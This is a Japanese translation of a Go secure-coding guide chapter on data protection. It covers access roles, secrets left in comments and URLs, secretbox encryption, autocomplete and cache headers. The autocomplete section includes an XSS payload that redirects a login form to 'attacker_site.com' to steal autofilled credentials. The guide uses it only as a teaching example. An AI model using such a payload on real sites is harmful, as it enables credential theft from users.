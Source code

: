 データの保護
===============

現在、データの保護はセキュリティ全般で最も重要なことの 1 つです。
以下のようになってしまったら困りますよね。

![All your data are belong to us](files/cB52MA.jpeg)

Web アプリケーションのデータは保護される必要があります。そのため、このセクションではデータを保護するさまざまな方法について見ていきます。

最初に取り組むべきことの1つは、ユーザーそれぞれに対して適切な権限を実装し、本当に必要な機能だけにアクセスを制限することです。

たとえば、次のようなユーザー・ロールを持つ単純なオンライン・ストアを考えてみましょう。

* セールスユーザー: カタログの閲覧のみ許可
* マーケティングユーザー: 統計情報の確認が可能
* 開発者： ページと Web アプリケーションの設定変更を許可する

また、システム（Web サーバ）構成において、正しいパーミッションを定義するべきです。

最初にやるべきことは各ユーザーに適切なロールを定義することです。

役割の分離とアクセス制御については、さらに、[アクセス制御][5]で説明します。

## 機密情報の削除

機密情報を含む一時ファイルやキャッシュファイルは、不要になり次第すぐに削除しましょう。
まだ必要な場合は、保護された場所に移動させるか、暗号化しましょう。

### コメント

開発者がソースコードに ToDo リストのようなコメントを残すことがあります。
最悪の場合、開発者がクレデンシャルを残すこともあります。

```go
// Secret API endpoint - /api/mytoken?callback=myToken
fmt.Println("Just a random code")
```

上記の例では、開発者がコメント内にエンドポイントの情報を残しています。このエンドポイントが守られていない場合、悪意あるユーザーに利用されてしまうかもしれません。

### URL

HTTP GET メソッドで機密情報を渡すことは、次のような理由で Web アプリケーションの脆弱性を残すことになります。

1. HTTPS を使用していない場合、MITM 攻撃によりデータを傍受される可能性があります。
2. ブラウザの履歴には、ユーザーの情報が保存されています。URL に
   セッション ID、ピン、トークンなど、有効期限のない（あるいはエントロピーの低い）ものが含まれていると、それらを盗まれる可能性があります。
3. 検索エンジンは、ページ内で発見された URL を保存する
4. HTTP サーバ（例：Apache、nginx）は、通常、要求された URL を、クエリ文字列を含めて、暗号化されていない状態でログファイル (例： `access_log`) に書き込みます。

```go
req, _ := http.NewRequest("GET", "http://mycompany.com/api/mytoken?api_key=000s3cr3t000", nil)
```

Web アプリケーションが `api_key` を使って、第三者の Web サイトから情報を取得しようとした場合に、もしも同一のネットワーク内で誰かが盗聴していたら、もしくはプロキシを使っていたとしたら、その情報は盗まれるかもしれません。これは HTTPS を使っていないためです。

GET で渡されたパラメータ（クエリ文字列）は、HTTP と HTTPS のどちらを使用しているかに関係なく、ブラウザの履歴やサーバのアクセスログにきれいに残ることに注意してください。

HTTPS は、クライアントとサーバ以外の第三者が、やりとりしたデータを取得できないようにするための方法です。
`api_key` のような機密データは、可能な限りリクエストボディか何らかのヘッダに格納する必要があります。同様に、可能な限り1回限りのセッション ID やトークンを使用します。

### 情報は力なり

本番環境上のアプリケーションやシステムのドキュメントは常に削除しましょう。
ドキュメントによっては、Web アプリケーションを攻撃するために使われる可能性のあるバージョンや機能を明らかしてしまうかもしれません。
(例： Readme, Changelog, etc.)

開発者は、ユーザーが使わなくなった機密情報を削除できるようにすべきです。
たとえば、ユーザーが自分のアカウントの期限切れのクレジットカードを削除したい場合、Web アプリケーションはそれを許可すべきです。

不要になった情報は、すべてアプリケーションから削除しなければなりません。

#### 暗号化がカギ

機密性の高い情報はすべてウェブアプリケーション内で暗号化する必要があります。
軍用レベルの [Go で利用可能な暗号化][2] を使用してください。詳細については
[暗号に関するプラクティス][3]のセクションを参照してください。

あなたのコードをほかの場所に実装する必要がある場合は、バイナリをビルドして共有してください。リバースエンジニアリングを防ぐ安心安全な術はないためです。

コードにアクセスするための異なるパーミッションを用意し、ソースコードへのアクセスを制限することは最良の方法です。

パスワードや接続文字列、平文やセキュリティ的に不十分な形式の機密情報をクライアント側とサーバ側の両方で保存しないでください。（データベース接続文字列を保護する方法については、[データベースセキュリティ][4]の例を参照してください）。
安全でない形式（たとえば、Adobe Flash やコンパイルされたコード）での埋め込みも含みます。

以下は、外部パッケージを使って Go で暗号化するシンプルな例です。
`golang.org/x/crypto/nacl/secretbox`:

```go
// Load your secret key from a safe place and reuse it across multiple
// Seal calls. (Obviously don't use this example key for anything
// real.) If you want to convert a passphrase to a key, use a suitable
// package like bcrypt or scrypt.
secretKeyBytes, err := hex.DecodeString("6368616e676520746869732070617373776f726420746f206120736563726574")
if err != nil {
    panic(err)
}

var secretKey [32]byte
copy(secretKey[:], secretKeyBytes)

// You must use a different nonce for each message you encrypt with the
// same key. Since the nonce here is 192 bits long, a random value
// provides a sufficiently small probability of repeats.
var nonce [24]byte
if _, err := rand.Read(nonce[:]); err != nil {
    panic(err)
}

// This encrypts "hello world" and appends the result to the nonce.
encrypted := secretbox.Seal(nonce[:], []byte("hello world"), &nonce, &secretKey)

// When you decrypt, you must use the same nonce and key you used to
// encrypt the message. One way to achieve this is to store the nonce
// alongside the encrypted message. Above, we stored the nonce in the first
// 24 bytes of the encrypted text.
var decryptNonce [24]byte
copy(decryptNonce[:], encrypted[:24])
decrypted, ok := secretbox.Open([]byte{}, encrypted[24:], &decryptNonce, &secretKey)
if !ok {
    panic("decryption error")
}

fmt.Println(string(decrypted))
```

出力は以下です。

```
hello world
```

## 不要なものは無効にする

攻撃ベクトルを減らすためのもう1つの簡単で効率的な方法は、システム上で不要なアプリケーションやサービスを無効にすることです。

### オートコンプリート

[Mozilla のドキュメント][1]によると、次のようにしてフォーム全体のオートコンプリートを無効にできます。


```html
<form method="post" action="/form" autocomplete="off">
```

特定のフォーム要素に対しては以下のようにします。

```html
<input type="text" id="cc" name="cc" autocomplete="off">
```

特に、ログインフォームのオートコンプリートを無効にする場合に便利です。ログインページに XSS ベクタが存在する場合を想像してみてください。
悪意のあるユーザーが次のようなペイロードを作成した場合、

```javascript
window.setTimeout(function() {
  document.forms[0].action = 'http://attacker_site.com';
  document.forms[0].submit();
}
), 10000);
```

これは、オートコンプリートされたフォームフィールドを `attacker_site.com` に送信します。

### キャッシュ

機密情報を含むページのキャッシュ制御は無効にする必要があります。
次のスニペットに示すように、対応するヘッダフラグを設定することで実現できます。

```go
w.Header().Set("Cache-Control", "no-cache, no-store")
w.Header().Set("Pragma", "no-cache")
```


`no-cache` 値は、キャッシュされた応答を使用する前にサーバで再検証するよう、ブラウザに指示します。これはブラウザにキャッシュしないように指示するものではありません。
> 訳者注：ブラウザだけに言及してますが、CDN などのプロキシキャッシュも含みます。

一方、`no-store` 値はキャッシュを無効にするためのものです。
リクエストやレスポンスのいかなる部分も保存させません。

`Pragma` ヘッダは HTTP/1.0 リクエストをサポートするために存在します。

[1]: https://developer.mozilla.org/en-US/docs/Web/Security/Securing_your_site/Turning_off_form_autocompletion
[2]: https://godoc.org/golang.org/x/crypto
[3]: ../cryptographic-practices/README.md
[4]: ../database-security/README.md
[5]: ../access-control/README.md